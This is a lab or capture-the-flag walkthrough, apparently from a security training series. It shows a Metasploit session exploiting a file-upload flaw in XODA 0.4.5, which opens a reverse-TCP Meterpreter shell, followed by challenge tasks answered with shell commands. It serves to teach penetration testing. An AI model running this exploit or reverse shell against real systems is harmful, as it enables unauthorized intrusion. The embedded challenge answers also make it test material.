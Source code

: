 ```
   TARGETURI  /xoda/           yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   XODA 0.4.5


msf5 exploit(unix/webapp/xoda_file_upload) > set TARGETURI /
TARGETURI => /
msf5 exploit(unix/webapp/xoda_file_upload) > run

[*] Started reverse TCP handler on 192.192.182.2:4444 
[*] Sending PHP payload (TQcSUAIl.php)
[*] Executing PHP payload (TQcSUAIl.php)
[*] Sending stage (38247 bytes) to 192.192.182.3
[*] Meterpreter session 1 opened (192.192.182.2:4444 -> 192.192.182.3:59022) at 2023-02-09 08:20:52 +0000
[!] Deleting TQcSUAIl.php

meterpreter > 
```

The target server as described below is running a vulnerable web server. You have to exploit the vulnerability and get a meterpreter session on the server.  Then, you have to perform the following tasks to complete the challenge!

Tasks:

Check the present working directory on remote (exploited) machine.

`/app/files`

```
meterpreter > pwd
/app/files
```

List the files present in present working directory of the remote machine.

`No entries exist in /app/files`

```
meterpreter > ls
No entries exist in /app/files
```

Check the present working directory on local (attacker) machine.

`/root`

```
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(unix/webapp/xoda_file_upload) > pwd
[*] exec: pwd

/root
```
